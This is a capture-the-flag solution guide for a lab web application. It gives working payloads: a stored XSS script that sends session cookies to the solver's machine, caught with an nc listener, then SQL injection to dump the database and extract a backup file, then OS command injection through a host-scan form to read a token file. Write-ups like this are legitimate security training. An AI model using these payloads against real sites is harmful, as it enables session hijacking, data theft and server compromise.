



# In Plain Site

_Solution Guide_


## Overview

Three tasks need to be completed to get all the points available for _In Plain Site_. These tasks revolve around analyzing a website, using any means necessary to elevate privileges, and finding the three hex tokens associated with the site.

>**Note:** You will need to create your own account on the site before following this solution guide.

## Question 1

_What is the hex token present on the website once you access an account with permissions higher than the default 'user'?_

#### High-jacking User Session with XSS

On certain pages of the site, at the bottom of the page, a section shows the most recent comment that was made. After some analysis and testing, you find this section is vulnerable to an XSS attack. 

Test this by commenting on any post (new or previous) so your comment is shown.

Test if XSS will work by commenting on a post with the following code snippet:

`    <script>alert('XSS Vuln')</script>
`

If you browse to the home page, you will see an alert confirming that it is vulnerable to an XSS attack -- so you know you have the possibility to steal session cookies from anyone browsing to the website. 

Start crafting your attack. Here are steps to do that:

1. Create a comment on a post with the following code (edit to input the IP address of your machine):

```javascript
    <script>new Image().src="http://**YOUR VM IP**/bogus.php?output="+document.cookie;</script>
```

2. Create a small script to implement a listener for connections created from your XSS code being executed by another user. 

```bash
    while :
    do
        nc -lvp 80 
    done
```

3. Watch the terminal with the listener running. If done correctly, you should start to get output that looks like this:



You can see the cookies from the user's session present in the response and can be read after the string `output=`. You should see that you have received two cookies:

 - `Session`
 - `Remember_token`

Use these tokens in Firefox to highjack their session. This can be done by following these steps:

- Go to `bugle:5000` web page and make sure you're logged out.
- Open Firefox web Developer Tools (right-click, select `inspect`).
- Go to the section `storage`.
- Expand the side section `cookies`.
- Click the `+` in the top right of the Developer Tools to create new item.
- Set the name of it to the first cookie found: `session`.
- Put the value of it as the string found after `session=` up until the `;` character as it signifies the end of the cookie for the first one.
- Repeat the entire process, but this time as the `remember_token` and its value. It will not have a `;` at the end of the string, the first space found will signify the end of this cookie.

It should look like this:



If done correctly, when you refresh the page, you should now be high-jacking the session of one of the users.

There are four users browsing the site throughout the challenges duration. In order to proceed, determine which user has elevated privileges. Do this by trial and error for each of the cookies received until the correct one is found.

You are looking for `Eddie Brock`  -- also known as `teamBrocket`. 

Once you log in you will see the `first token`  posted in the top left of your page.

## Question 2

*What is the hex token stored in a file containing backup credentials?*

#### Retrieving files via SQL Injection

Once you get access, you have access to a new page on the site labeled `User Management`. This page is used to search for users and change accounts.

If you look at the page source code, you can see there is a script used that is not used anywhere else on the site. 



This script is meant to submit the value `*` into the search function if the field to search by is `None` and if the search string is '' (empty string).

This is a hint that it is submitting this value to run within a SQL statement, and that there is a vulnerability here for altering the statement to get the contents of the SQL Database. 

Run the following command to view the contents of the database:

```sql
    * from sqlite_schema where type='table'-- 
```

The output is all the tables in the database and their structure. Your goal is to get a specific file from the `File` table in the database; you can get the contents of that table using this command:

```sql
    * from File--
```

There are three files present, but you want `backup.pdf`. You can retrieve this file by specifying its `id` number within the SQL command:

```sql
    * from File where id=3--
```

If you then compare the structure of the database found in the first SQL command with the output of the command retrieving `backup.pdf` you'll find the file is stored in the `blob` section of the record. The `blob` is stored in a byte format; convert it back into a file before you can read it. The python script below does this.

```python
    #/usr/bin/python3
    import io

    blob = b'**BLOB STRING HERE'
    bb = io.BytesIO()
    bb.write(blob)

    with open('file.pdf', 'wb') as f:
        f.write(bb.getbuffer())
```

You can now open the file and the `second token` will be present as well as the backup master credentials for the site.

## Question 3

*What is the hex token stored in a file on the web server's file system?*

#### OS Command Injection

Now that you have the credentials for the highest permission account, you can view the `Scan Hosts` page.

It will prompt you to enter a hostname -- once you do, it will return output that the VM is running a quick nmap scan against the host you entered.

Test trying to alter the command being entered. By trial and error, you can find the location of the final file labeled `token3.txt` and get its contents.

The following command will complete an OS Command Injection and get you the third token to complete this challenge.

```shell
    kali >/dev/null && cat /home/user/Desktop/site/static/token3.txt #
```
